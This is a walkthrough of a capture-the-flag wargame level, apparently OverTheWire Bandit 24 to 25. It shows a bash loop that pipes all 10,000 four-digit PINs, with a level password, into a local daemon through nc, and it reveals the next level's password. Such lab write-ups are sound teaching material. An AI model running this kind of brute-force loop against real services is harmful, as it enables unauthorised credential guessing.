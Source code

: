 A daemon is listening on **port 30002** and will give you the password for bandit25 if given the password for **bandit24** and a secret numeric **4-digit pincode**. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Let's connect with port 30002 and see what it says:\
`nc localhost 30002`\
If you type the command it will output:
```
I am the pincode checker for user bandit25. 
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

- - -

We have to write a script so that it can iteerate through 4-digit combinations.\
To do that let's go make a directory in `/tmp`.\
`mkdir /tmp/bandit24-25`\
`cd /tmp/bandit24-25`\
Then lets make our script! Go ahead and type:\
`vim pincode.sh`\
And put this inside our script:
```
#!/bin/bash

for i in {000..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```
Remember to change the permissions so that it is executable:\
`chmod +x pincode.sh`

- - -

Go ahead and now run `./pincode.sh | nc localhost 30002`\
This will iterate through our combinations and eventually output the password for level 25!


The password for level 25:\
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
